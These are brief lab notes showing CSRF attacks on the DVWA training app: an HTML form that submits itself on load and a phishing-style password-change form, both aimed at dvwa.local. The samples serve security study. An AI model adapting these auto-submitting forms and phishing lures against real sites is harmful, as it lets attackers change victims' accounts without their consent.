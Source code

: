 # Manual

TODO: Demonstrate how to leverage a phishing link with HTML file to input the parameters.

```html
<html>
  <body>
    <form action="http://dvwa.local/dvwa/vulnerabilities/csrf/" method="post">
      <input type="hidden" name="parameter" value="<sending_data>" />
      <input type="submit" value="submitbtn" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Social engineering.

```html
<html>
	<body>
		<form action="http://dvwa.local/dvwa/vulnerabilities/csrf/" method="get">
			<p>
				New password:
                <input type="password" automcomplete="off" name="password_new">
			</p>
			<p>
				Confirm new password:
                <input type="password" automcomplete="off" name="password_confirm">
			</p>
            <p>
                <input type="submit" value="change" name="change">
            </p>
		</form>
	</body>
</html>
```